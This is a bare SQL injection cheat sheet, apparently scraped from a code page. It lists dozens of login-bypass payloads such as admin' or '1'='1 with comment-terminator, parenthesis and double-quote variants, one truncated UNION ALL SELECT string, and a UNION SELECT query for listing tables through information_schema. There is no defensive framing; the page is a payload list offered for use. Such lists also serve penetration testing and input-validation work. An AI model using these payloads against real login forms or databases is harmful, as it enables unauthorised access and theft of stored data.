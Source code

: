 Injection Cheat Sheet
	
	'
	admin' or '1'='1
    or 1=1
    or 1=1--
    or 1=1#
    or 1=1/*
    admin' --
    admin' #
    admin'/*
    admin' or '1'='1
    admin' or '1'='1'--
    admin' or '1'='1'#
    admin' or '1'='1'/*
    admin'or 1=1 or ''='
    admin' or 1=1
    admin' or 1=1--
    admin' or 1=1#
    admin' or 1=1/*
    admin') or ('1'='1
    admin') or ('1'='1'--
    admin') or ('1'='1'#
    admin') or ('1'='1'/*
    admin') or '1'='1
    admin') or '1'='1'--
    admin') or '1'='1'#
    admin') or '1'='1'/*
    1234 ' AND 1=0 UNION ALL SELECT 'admin', 
    admin" --
    admin" #
    admin"/*
    admin" or "1"="1
    admin" or "1"="1"--
    admin" or "1"="1"#
    admin" or "1"="1"/*
    admin"or 1=1 or ""="
    admin" or 1=1
    admin" or 1=1--
    admin" or 1=1#
    admin" or 1=1/*
    admin") or ("1"="1
    admin") or ("1"="1"--
    admin") or ("1"="1"#
    admin") or ("1"="1"/*
    admin") or "1"="1
    admin") or "1"="1"--
    admin") or "1"="1"#
    admin") or "1"="1"/*

    Get the list of tables: 
	1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables;
	